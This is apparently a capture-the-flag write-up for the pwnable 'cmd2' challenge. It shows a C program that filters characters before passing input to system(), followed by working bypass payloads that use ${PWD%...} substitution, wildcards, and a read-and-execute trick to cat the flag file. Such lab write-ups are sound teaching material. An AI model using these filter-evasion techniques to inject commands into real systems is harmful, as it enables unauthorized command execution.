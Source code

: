 # Cmd2

Cmd1 was too easy. Let's see what are pwnable's plans for us now:

```c
int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "=")!=0;
    r += strstr(cmd, "PATH")!=0;
    r += strstr(cmd, "export")!=0;
    r += strstr(cmd, "/")!=0;
    r += strstr(cmd, "`")!=0;
    r += strstr(cmd, "flag")!=0;
    return r;
}

extern char** environ;
void delete_env(){
    char** p;
    for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
    delete_env();
    putenv("PATH=/no_command_execution_until_you_become_a_hacker");
    if(filter(argv[1])) return 0;
    printf("%s\n", argv[1]);
    system( argv[1] );
    return 0;
}
```

Things have changed. We can't use PATH, equal signs, exports, slashes...
We can still get our flag, though. We just have to resort to other means, like using wildcards to get `flag` and `${VAR%???}` substitutions to get a slash.

`${VAR%????}` returns `$VAR` stripped of the last 4 characters. Let's test it:

```bash
$ ./cmd2 "echo \$PWD"
/home/cmd2
$ ./cmd2 "echo \${PWD:???}"
/home/c
$ ./cmd2 "\${PWD%?????????}bin\${PWD%?????????}cat fl*"
```

Another fancy, easier solution would be to use the `read` command:

```bash
$ ./cmd2 "read cmd; \$cmd"
/bin/cat flag
```

Like `cmd1`, there are many other solutions. Those are left to the reader as an exercise. :)
